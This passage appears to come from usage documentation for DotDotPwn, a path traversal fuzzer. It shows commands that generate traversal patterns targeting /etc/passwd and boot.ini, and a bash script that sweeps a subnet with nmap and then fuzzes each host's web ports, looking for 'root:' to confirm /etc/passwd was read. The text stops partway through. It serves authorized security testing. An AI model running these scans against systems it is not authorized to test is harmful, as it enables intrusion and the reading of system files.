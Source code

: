 ### Pattern Generation for External Tools

**Scenario**: Generating patterns for use with other security tools.

```bash
# Generate Unix patterns for Burp Suite
python dotdotpwn.py --module stdout --depth 8 --os-type unix --file /etc/passwd > burp_unix_patterns.txt

# Generate Windows patterns for OWASP ZAP
python dotdotpwn.py --module stdout --depth 6 --os-type windows --file boot.ini --extension .bak > zap_windows_patterns.txt

# Generate generic patterns with custom extensions
python dotdotpwn.py --module stdout --depth 10 --os-type generic --file config.txt --extension .backup > generic_patterns.txt

# Generate and filter patterns
python dotdotpwn.py --module stdout --depth 8 --file database.conf | grep -E '\.\./.*\.\./.*\.\.' | head -50 > filtered_patterns.txt
```

### Integration with Vulnerability Scanners

**Scenario**: Combining DotDotPwn with other vulnerability scanners.

#### Nmap + DotDotPwn Integration
```bash
#!/bin/bash
# nmap_dotdotpwn_integration.sh

TARGET_NETWORK="192.168.1.0/24"

echo "Phase 1: Network discovery with Nmap..."
nmap -sn "$TARGET_NETWORK" | grep "Nmap scan report" | awk '{print $5}' > discovered_hosts.txt

echo "Phase 2: Port scanning web services..."
while IFS= read -r host; do
    echo "Scanning $host for web services..."
    nmap -p 80,443,8080,8443 -sV "$host" | grep "open" > "${host}_ports.txt"
    
    # Extract open web ports
    if grep -q "80/tcp.*open" "${host}_ports.txt"; then
        echo "Testing HTTP on $host..."
        python dotdotpwn.py --module http --host "$host" --port 80 --pattern "root:" --depth 6 --quiet --report "${host}_http.json" --format json
    fi
    
    if grep -q "443/tcp.*open" "${host}_ports.txt"; then
        echo "Testing HTTPS on $host..."
        python dotdotpwn.py --module http --host "$host" --port 443 --ssl --pattern "root:" --depth 6 --quiet --report "${host}_https.json" --format json
    fi
    
done < discovered_hosts.txt

echo "Phase 3: Generating summary report..."
python << EOF
import json
import glob

summary = {"total_hosts": 0, "vulnerable_hosts": 0, "total_vulns": 0}

for report_file in glob.glob("*_http*.json"):
    try:
```